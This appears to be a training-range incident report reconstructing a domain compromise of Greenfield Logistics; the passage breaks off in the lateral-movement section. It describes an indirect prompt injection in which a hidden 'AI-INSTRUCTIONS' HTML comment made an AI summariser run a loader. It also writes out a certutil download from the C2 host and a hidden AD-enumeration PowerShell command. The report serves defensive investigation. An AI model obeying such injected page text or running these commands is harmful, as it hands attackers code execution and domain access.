# Incident Report

**Case Reference:** GF-INC-2026-0704  
**Classification:** Confidential — Internal Distribution Only  
**Report Status:** Final  
**Report Version:** 1.0  
**Analyst:** Chris Mondejar  
**Date of Report (UTC):** 2026-07-23

---

## 1. Executive Summary

Between 10:02 and approximately 17:00 UTC on 4 July 2026, an external attacker gained unauthorised access to three Greenfield Logistics systems — a user workstation (GF-WS01), a file server (GF-SRV01), and the domain controller (GF-DC01) — and achieved full compromise of the Greenfield Active Directory domain.

**How they got in.** The attacker gained initial remote access to GF-WS01 using a valid administrator account (`sancadmin`) over Remote Desktop. Within thirteen minutes they also exploited Greenfield's automated AI page-summariser: a specially crafted webpage caused the tool to silently download and run malicious code, deploying an **AdaptixC2** remote-access implant that maintained an encrypted channel to attacker-controlled infrastructure throughout the incident.

**How far they went.** Over approximately seven hours the attacker moved from GF-WS01 to GF-SRV01 and then to the domain controller. At least five accounts were compromised. On the domain controller the attacker obtained the master Kerberos credential (Golden Ticket) and planted a hidden backdoor account (`svc_backup`) with full administrative rights — a backdoor that survives standard password-reset remediation unless specifically removed.

**What was taken.** Finance invoice files from GF-SRV01 were confirmed accessed and staged. The encrypted C2 channel was active for several hours; exfiltration of additional data cannot be confirmed or excluded.

**Dwell time.** First confirmed malicious action at 10:02:49 UTC. First MDE alert at 11:02:52 UTC — approximately 60 minutes of unopposed attacker activity before automated detection.

**Priority actions — in order:**

1. Reset the KRBTGT account password **twice**, 10 hours apart — invalidates forged Golden Tickets.
2. Audit and remove `svc_backup` GenericAll ACE from AdminSDHolder in Active Directory.
3. Disable all five compromised accounts: `sancadmin`, `d.williams`, `t.harris`, `svc_backup`, `m.smith`.
4. Isolate and re-image GF-WS01, GF-SRV01, and GF-DC01.
5. Block C2 domains: `cdn.cloud-endpoint.net`, `api.cloud-endpoint.net`, IPs `172.67.174.46`, `104.21.30.237`.
6. Disable or sandbox the AI page-summariser — prevent it from spawning system processes.

---

## 2. Incident Overview

| Field | Detail |
|---|---|
| Incident reference | GF-INC-2026-0704 |
| First malicious activity (UTC) | 2026-07-04 10:02:49 |
| Incident detected (UTC) | 2026-07-04 11:02:52 (first MDE alert) |
| Dwell time | ~60 minutes |
| Detection source | MDE automated alerts; MSSP escalation |
| Severity | **Critical** |
| Incident type | Intrusion / credential theft / domain compromise / potential data exfiltration |
| Hosts affected | GF-WS01, GF-SRV01, GF-DC01 |
| Accounts compromised | sancadmin, d.williams, t.harris, svc_backup, m.smith (likely) |
| Domain / environment | GREENFIELD (greenfield.local) |
| Current status | Eradication and recovery not confirmed — treat as Active |
| Report prepared by | Chris Mondejar, Cyber Security Support Analyst, Log(N) Pacific Cyber Range |

---

## 3. Investigation Scope and Data Sources

**In scope:**
- Hosts: GF-WS01, GF-SRV01, GF-DC01
- Time window: 2026-07-04 10:00:00 UTC through 2026-07-05 03:00:00 UTC
- Investigation question: Reconstruct how the attacker gained access, how far they moved, and what they accessed or took

**Data sources used:**

| Source | Workspace | Tables / Artefacts |
|---|---|---|
| Microsoft Sentinel (ASIM) | LAW-SilentCorridor | WindowsProcess_CL, WindowsAuth_CL, WindowsNetwork_CL, WindowsDNS_CL, WindowsProcessAccess_CL, WindowsService_CL |
| Microsoft Defender XDR (EDR) | LAW-Cyber-Range | DeviceProcessEvents, DeviceFileEvents, AlertInfo, AlertEvidence, SecurityAlert |
| Evidence bag (static analysis) | Local sandbox | blog_lure.html, loader.ps1, shellcode_encoded.bin, gfupdater.exe, hOQjiirI.exe |

> **Scope note:** Process activity consistent with this intrusion was observed before 10:00 UTC during orientation. Per the case rules of engagement this is treated as out-of-scope baseline. In a production engagement the window would be extended to confirm true dwell time.

**Fig. 0 — Sentinel workspace confirmed (LAW-SilentCorridor)**



**Fig. 1 — Telemetry inventory**



**Named gaps:**

- **Sancadmin credential origin:** How sancadmin credentials were obtained before initial RDP is not confirmed. No brute-force storm preceded the failed logons, suggesting credentials were already held.
- **d.williams credential timing:** d.williams first appeared on GF-DC01 at 10:42 — ~2 hours before the 12:26 LSASS dump. An earlier credential-harvesting event is possible but not confirmed.
- **Exfiltration volume:** The AdaptixC2 C2 channel used encrypted HTTPS. Payload content is not inspectable; exfiltration cannot be confirmed or excluded.
- **Mass file rename:** Two High-severity MDE "Ransomware Indicator" alerts (GF-WS01 11:12, GF-SRV01 12:18). DeviceFileEvents did not return matching events — telemetry gap.
- **vjBAfPBZ.exe:** Second binary installed on GF-DC01 at 15:05. Not in evidence bag. Assessed as likely Impacket-related but unconfirmed.
- **PowerShell-Compress on GF-DC01:** MDE alert at 16:06:52. No corroborating process events found.
- **m.smith account:** Staging folders used at 10:10:57. Compromise status unconfirmed.

---

## 4. Timeline of Events

> All times UTC. Every row is sourced to a specific query result, artefact, or alert.

| Time (UTC) | Host | Account | Event | MITRE | Source |
|---|---|---|---|---|---|
| 09:58:59 | GF-WS01 | sancadmin | 3x failed RDP logons from 10.1.0.120 (pre-scope context) | T1110 | WindowsAuth_CL [Fig.6] |
| **10:02:49** | GF-WS01 | sancadmin | **FIRST SUCCESSFUL RDP logon from 10.1.0.120** — LogonType 10. Initial access. | T1021.001, T1078 | WindowsAuth_CL [Fig.6]; WindowsNetwork_CL [Fig.7] |
| 10:10:57 | GF-WS01 | sancadmin | Finance file copy: `\\GF-SRV01\Finance\Invoices\2026\INV-2026-01-001.txt` → `C:\Users\m.smith\Documents\Invoices\latest_invoice.txt` | T1039, T1074 | WindowsProcess_CL [Fig.2] |
| **10:15:32** | GF-WS01 | sancadmin | **python.exe (AI summariser) → loader.ps1**: AMSI bypass + cdn.cloud-endpoint.net/update XOR-0x4A shellcode + VirtualAlloc inject | T1566, T1204, T1059.001, T1562.001 | WindowsProcess_CL [Fig.12]; loader.ps1 artefact [Fig.11] |
| 10:16:40 | GF-WS01 | sancadmin | DownloadString from cdn.cloud-endpoint.net/loader — stage-2 fetch | T1105 | WindowsProcess_CL [Fig.10] |
| **10:16:43** | GF-WS01 | sancadmin | **First DNS: cdn.cloud-endpoint.net → 172.67.174.46. C2 beacon established.** | T1071.001, T1090.002 | WindowsDNS_CL [Fig.17]; WindowsNetwork_CL [Fig.16] |
| 10:42:43 | GF-DC01 | d.williams | First auth to GF-DC01 from 10.1.0.169 — all successes, no failures | T1078 | WindowsAuth_CL [Fig.14] |
| 11:02:52 | GF-WS01 | — | MDE attack disruption triggered | — | MDE SecurityAlert [Fig.22] |
| 11:12 | GF-WS01 | — | MDE: Mass File Rename (Ransomware Indicator, High) — telemetry gap | T1486? | MDE SecurityAlert [Fig.22] |
| 12:10:10 | GF-SRV01 | t.harris | RDP logon to GF-SRV01; registry recon (ACRegL.exe querying HKLM\Software) | T1012 | DeviceProcessEvents/MDE [Fig.21] |
| 12:18 | GF-SRV01 | — | MDE: Mass File Rename (Ransomware Indicator, High) — telemetry gap | T1486? | MDE SecurityAlert [Fig.22] |
| **12:26:32** | GF-WS01 | sancadmin | **LSASS credential dump: Explorer.exe → lsass.exe, GrantedAccess 0x1010** | T1003.001, T1055 | WindowsProcessAccess_CL [Fig.15] |
| 12:43 | GF-WS01 | sancadmin | Scheduled task created | T1053.005 | MDE SecurityAlert [Fig.22] |
| 12:44 | GF-WS01 | sancadmin | Registry Run key modified | T1547.001 | MDE SecurityAlert [Fig.22] |
| 12:51:43 | GF-SRV01 | t.harris | DNS: cdn.cloud-endpoint.net from GF-SRV01 — second beacon active | T1071.001 | WindowsDNS_CL [Fig.17] |
| **13:03:58** | GF-WS01 | sancadmin | **gfupdater.exe dropped**: `cmd /c copy svchost_upd.exe → C:\ProgramData\GFUpdater\gfupdater.exe` | T1036, T1105 | DeviceFileEvents/MDE [Fig.20]; gfupdater.exe artefact |
| 13:09:54 | GF-WS01 | — | MDE: AdaptixC2 backdoor detected | — | MDE SecurityAlert [Fig.22] |
| 13:51:42 | GF-SRV01 | t.harris | certutil LOLBin download: `-urlcache -split -f cdn.cloud-endpoint.net/update → svchost_upd.exe` | T1105, T1218.001 | DeviceProcessEvents/MDE [Fig.21] |
| 13:52:29 | GF-SRV01 | t.harris | svchost_upd.exe executed — second AdaptixC2 beachhead | T1059.001 | DeviceProcessEvents/MDE [Fig.21] |
| 13:57 | GF-SRV01 | t.harris | AnyDesk remote-access tool installed | T1219 | MDE SecurityAlert [Fig.22] |
| 14:11 | GF-SRV01 | t.harris | Scheduled task created on GF-SRV01 | T1053.005 | MDE SecurityAlert [Fig.22] |
| **15:00:38** | GF-DC01 | d.williams | **hOQjiirI.exe (RemCom) installed as service "JWbf"** — remote execution on DC | T1543.003, T1570 | WindowsService_CL [Fig.13]; hOQjiirI.exe artefact; MDE alert |
| 15:05:06 | GF-DC01 | d.williams | vjBAfPBZ.exe installed as service "buDH" — identity unconfirmed | T1543.003 | WindowsService_CL [Fig.13] |
| 15:38 | GF-SRV01 | — | Suspicious LDAP query — domain enumeration | T1069, T1087 | MDE SecurityAlert [Fig.22] |
| 15:46:30 | GF-DC01 | — | MDE: LSA secrets theft (Impacket secretsdump) | T1003.004 | MDE SecurityAlert [Fig.22] |
| **15:56:38** | GF-DC01 | — | **MDE: Possible Golden Ticket attack (×2, High)** — KRBTGT hash obtained | T1558.001 | MDE SecurityAlert [Fig.22] |
| 16:05:06 | GF-DC01 | — | MDE: Impacket toolkit hands-on-keyboard attack | T1021.002 | MDE SecurityAlert [Fig.22] |
| **16:42:11** | GF-DC01 | d.williams | **Full AD enumeration**: Get-ADUser, Get-ADComputer, Get-ADGroup, repadmin, Get-DnsServerZone | T1087.002, T1069, T1018 | DeviceProcessEvents/MDE [Fig.23] |
| **16:44:25** | GF-DC01 | SYSTEM | **AdminSDHolder ACE inserted (×2 methods)**: svc_backup granted GenericAll — domain backdoor planted | T1098, T1078.002 | DeviceProcessEvents/MDE [Fig.23] |
| 16:47 | GF-DC01 | svc_backup | Backdoor account svc_backup logon to GF-DC01 from 10.1.0.120 | T1078.002 | MDE SecurityAlert [Fig.22] |

---

## 5. Technical Findings

### Attack Chain Summary

```
[INITIAL ACCESS]
10:02:49  sancadmin RDP → GF-WS01 from 10.1.0.120 (unmanaged host)
     ↓
[EXECUTION via AI PROMPT INJECTION]
10:15:32  python.exe (AI summariser) → loader.ps1 → AdaptixC2 beacon
     ↓
[COLLECTION]
10:10:57  Finance files staged from \\GF-SRV01\Finance
     ↓
[C2 CHANNEL]
10:16:43  AdaptixC2 → cdn.cloud-endpoint.net (Cloudflare-proxied) → 400+ beacons
     ↓
[CREDENTIAL ACCESS]
12:26:32  Explorer.exe (injected) → lsass.exe dump (0x1010)
     ↓
[PERSISTENCE on GF-WS01]
12:43–13:03  Scheduled task + Run key + gfupdater.exe
     ↓
[LATERAL MOVEMENT → GF-SRV01]
12:10–13:52  t.harris — certutil + second AdaptixC2 + AnyDesk
     ↓
[LATERAL MOVEMENT → GF-DC01]
15:00:38  d.williams → RemCom service (hOQjiirI.exe as JWbf)
     ↓
[IMPACT on GF-DC01]
15:46–16:44  LSA secrets + Golden Ticket + AD enumeration
             + AdminSDHolder abuse → svc_backup domain backdoor
```

---

### 5.1 Initial Access

At **10:02:49 UTC**, `sancadmin` successfully authenticated to GF-WS01 via RDP (LogonType 10) from `10.1.0.120`. Three failed logons immediately preceded this at 09:58:59–09:59:56. `10.1.0.120` is an unmanaged endpoint not belonging to any monitored Greenfield host.

> *Evidence: WindowsAuth_CL [Fig.6] + WindowsNetwork_CL port 3389 [Fig.7]. Two independent Sentinel tables confirm the same entry event. Confidence: High.*

**MITRE: T1021.001 (RDP), T1078 (Valid Accounts).**



*Fig. 6 — sancadmin logons from 10.1.0.120 (WindowsAuth_CL): failure burst then success at 10:02:49 UTC*



*Fig. 7 — Network connections 10.1.0.120 → GF-WS01/SRV01, all port 3389 (RDP). Second-source corroboration.*



*Fig. 5 — Source-IP to host map. 10.1.0.120 is external to the monitored estate.*

---

### 5.2 Execution — Indirect Prompt Injection via AI Page-Summariser

At **10:15:32 UTC**, `python.exe` (`C:\Program Files\Python311\python.exe` — Greenfield's AI page-summariser) spawned a hidden PowerShell process executing `loader.ps1` content character-for-character. The command matched artefact File 02 on three identifiers: the AMSI bypass (`amsiInitFailed`), the C2 URL (`cdn.cloud-endpoint.net/update`), and the XOR key (`0x4A`).

The mechanism: the summariser fetched attacker-controlled page `blog_lure.html` (File 01), which contained a hidden `AI-INSTRUCTIONS:` block in an HTML comment — indirect prompt injection. The tool executed the injected command without human interaction.

> *Evidence: WindowsProcess_CL ActingProcessFilePath = python.exe [Fig.12] + loader.ps1 artefact [Fig.11] + shellcode_encoded.bin decoded with key 0x4A. Three-source corroboration. Confidence: High.*

**MITRE: T1566, T1204, T1059.001, T1562.001, T1105, T1055.**



*Fig. 12 — ActingProcessFilePath = python.exe at 10:15:32 UTC. AI page-summariser spawned the loader.*



*Fig. 11 — loader.ps1 command confirmed in telemetry. Matches artefact File 02 character-for-character.*



*Fig. 2 — GF-WS01 PowerShell activity with baseline removed. Loader and Finance file copy both visible.*



*Fig. 10 — In-scope execution chain on GF-WS01.*

---

### 5.3 Persistence

**GF-WS01 — gfupdater.exe (on-disk beacon)**

At 13:03:58 UTC: `cmd.exe /c copy C:\Windows\Temp\svchost_upd.exe C:\ProgramData\GFUpdater\gfupdater.exe`. Beacon staged as `svchost_upd.exe` (mimicking `svchost.exe`), deployed as `gfupdater.exe` in a folder impersonating a legitimate updater.

> *Evidence: DeviceFileEvents/MDE [Fig.20] + gfupdater.exe artefact (File 04). Dual-sourced. Confidence: High.*



*Fig. 20 — gfupdater.exe FileCreated event (MDE DeviceFileEvents).*

**GF-WS01 — Scheduled task + Run key**

MDE alerts at 12:43 (scheduled task) and 12:44 (Run key modified) attributed to sancadmin. Task/key content not recovered (named gap). MITRE: T1053.005, T1547.001.

**GF-SRV01 — Scheduled task by t.harris + AnyDesk**

Scheduled task at 14:11 by `GREENFIELD\t.harris`. AnyDesk remote-access software at 13:57 — secondary C2/persistence channel. MITRE: T1053.005, T1219.

**GF-DC01 — AdminSDHolder ACE (CRITICAL)**

At 16:44:25 and 16:44:59 UTC, a SYSTEM-level process ran two successive commands granting `svc_backup` GenericAll on AdminSDHolder using both `Add-ADPermission` and `Set-Acl`. Windows SDProp (every 60 min) propagates this to all privileged AD groups. **Standard remediation will not remove this backdoor.**

> *Evidence: DeviceProcessEvents/MDE [Fig.23]. Confidence: High.*

**MITRE: T1098, T1078.002.**

---

### 5.4 Credential Access

**LSASS memory dump (GF-WS01) — T1003.001**

At 12:26:32 UTC, `Explorer.exe` accessed `lsass.exe` with `GrantedAccess: 0x1010` (PROCESS_QUERY_LIMITED_INFORMATION + PROCESS_VM_READ) — the credential dump fingerprint. Attributed to `GF-WS01\sancadmin`. Explorer.exe was used as the accessing process due to prior injection (T1055).

> *Evidence: WindowsProcessAccess_CL — 19 rows returned; 18 were NT AUTHORITY\SYSTEM (baseline). The single sancadmin/Explorer.exe/lsass.exe/0x1010 row is the outlier [Fig.15]. Confidence: High.*



*Fig. 15 — LSASS access events. sancadmin/Explorer.exe/0x1010 is the single non-system outlier.*

**LSA secrets theft (GF-DC01) — T1003.004**

MDE alert at 15:46:30: "Indication of local security authority secrets theft" (High) — consistent with Impacket `secretsdump.py`.

**Golden Ticket — T1558.001**

Two High-severity MDE alerts at 15:56:38 UTC. KRBTGT hash obtained; forged tickets allow impersonation of any domain user indefinitely.

---

### 5.5 Defence Evasion

- **AMSI bypass (T1562.001):** loader.ps1 patches `amsiInitFailed=true` before shellcode download. Confirmed by artefact + MDE alert at 11:21:52.
- **Process injection into Explorer.exe (T1055):** Beacon injected into trusted process, used to access lsass.exe covertly.
- **Filename masquerading (T1036):** `svchost_upd.exe` → `gfupdater.exe` — double masquerade.
- **CDN-proxied C2 (T1090.002):** `cdn.cloud-endpoint.net` routed through Cloudflare (172.67.174.46). HTTPS to Cloudflare is indistinguishable from legitimate business traffic.
- **Certutil LOLBin (T1218.001):** On GF-SRV01, t.harris used `certutil -urlcache -split -f` to download the beacon.

---

### 5.6 Discovery

At 16:42:11 UTC, d.williams ran a hidden PowerShell command on GF-DC01:

```powershell
powershell.exe -WindowStyle Hidden -Command "
  Import-Module ActiveDirectory;
  Get-ADUser -Filter {Enabled -eq $true} -Properties LastLogonDate | Out-Null;
  Get-ADComputer -Filter * | Out-Null;
  Get-ADGroup -Filter * | Out-Null;
  repadmin /replsummary | Out-Null;
  Get-DnsServerZone | Out-Null"
```

Every enabled user, computer, group, AD replication topology, and DNS zone enumerated. Output suppressed — delivered via C2 channel.

> *Evidence: DeviceProcessEvents/MDE [Fig.23]. Confidence: High.*

**MITRE: T1087.002, T1069, T1018, T1082.**

---

### 5.7 Lateral Movement

**GF-WS01 → GF-SRV01:** From ~10:22 UTC, WindowsNetwork_CL shows 10.1.0.120 connecting to 10.1.0.169 on port 3389. t.harris operating on GF-SRV01 by 12:10. Confidence: Medium.

